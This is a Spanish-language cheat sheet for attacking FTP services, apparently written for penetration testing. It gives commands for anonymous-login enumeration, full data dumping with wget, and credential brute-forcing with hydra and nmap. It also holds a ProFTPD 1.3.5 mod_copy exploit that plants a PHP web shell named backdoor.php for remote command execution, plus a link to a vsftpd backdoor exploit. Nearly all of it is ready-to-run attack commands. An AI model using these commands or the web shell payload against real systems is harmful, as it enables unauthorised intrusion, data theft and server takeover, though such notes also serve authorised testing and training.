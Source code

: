 # FTP
Protocolo de transferencia de archivos , usualmente en el puerto 21

## Enumeración
### Checkear la existencia de login anonymous mediante NMAP
```
nmap IP --script ftp-anon
```
## Interación con el servicio
### Obtener sesion cuando el login anonymous esta habilitado
```
ftp IP
> username Anonymous
> password Dummy
```
### Obtener la ruta del directorio actual
```
>PWD
```
### Checkear si hay permisión de subir archivos / subir archivos
```
>PUT file.ext
```
### Obtener archivos desde el cliente
```
get file.ext
```
### Volcar los dato del FTP si login anonymous esta activo
```bash
wget ftp://IP/* -r
```
## Ataque por fuerza bruta
### Usando Hydra
```
hydra -L UserList -P PassList ftp://IP 
```
### Usando Nmap
```
nmap --script ftp-brute --script-args userdb=UserList -p Puerto IP
```
## Vulnerabilidades comunes sin metasploit
### ProFTPD 1.3.5 File Copy ( CVE 2015-3306 )
```
https://www.exploit-db.com/exploits/36742
```
#### Convertir la anterior vuln en un RCE
```
site cpfr /proc/self/cmdline
site cpto /tmp/.<?php passthru($_GET['cmd']);?>
site cpfr /tmp/.<?php passthru($_GET['cmd']);?>
site cpto /var/www/html/backdoor.php
```
### vsftpd 2.3.4 Backdoor ( CVE 2011-0762 ) 
```
https://github.com/ahervias77/vsftpd-2.3.4-exploit
```
